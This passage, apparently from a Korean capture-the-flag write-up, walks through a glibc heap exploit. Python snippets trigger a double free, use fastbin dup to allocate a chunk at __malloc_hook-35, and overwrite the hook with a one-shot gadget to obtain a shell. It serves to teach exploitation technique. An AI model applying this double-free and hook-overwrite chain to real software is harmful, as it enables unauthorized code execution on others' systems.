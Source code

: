 ```python
delete(5)   # arbitrary free
delete(6)
delete(4)   # double free
```

### 4.3. "malloc_hook" overwrite with oneshot gadget

이제 0x70크기의 메모리를 할당받으려고 하면, loop에서 주소를 참조해서 메모리를 할당해준다.

처음으로 할당받은 메모리에 이후에 할당받고싶은 주소값을 입력해두면, 다다음번 할당에서 해당 주소에 chunk를 할당받을 수 있다.

shell을 얻기 위해서 libc의 `__malloc_hook`주소를 oneshot gadget으로 덮는 전략을 사용한다.

`__malloc_hook`가 포함된 메모리영역을 할당받을 수 있으면, `__malloc_hook`영역의 주소를 원하는 주소로 변경 가능하다.

![11_malloc_hook_addr](/assets/img/posts/HS2024-1/ROUND4/vspm/v2/11_malloc_hook_addr.png)
![12_malloc_hook_chunk](/assets/img/posts/HS2024-1/ROUND4/vspm/v2/12_malloc_hook_chunk.png)
malloc_hook을 포함한 메모리 영역을 할당받으려면, 주변에 올바른 size값이 들어있는 위치가 필요하다.
malloc_hook-35위치에 할당을 시도하면, 0x7f 라는 올바른 size값이 존재하므로 할당에 성공한다.

![13_malloc_hook_overwrited](/assets/img/posts/HS2024-1/ROUND4/vspm/v2/13_malloc_hook_overwrited.png)
이후 원하는 값을 쓰면 위와같이 원하는 주소로 `__malloc_hook`을 덮을 수 있다.

이 영역을 oneshot gadget 으로 덮고, malloc을 호출하면 `__malloc_hook`에 저장된 주소로 뛰면서 shell을 획득 할 수 있다.

```python
add(0x68, p64(malloc_hook - 35) + b'A', b'1')     # malloc_hook
add(0x68, b'A'*0x68, b'1')  # dummy
add(0x68, b'A'*0x68, b'1')  # dummy

add(0x68, b'G'*0x13 + p64(one_shot) + b'\x00'*0x30, b'7')  # in malloc_hook!!
```
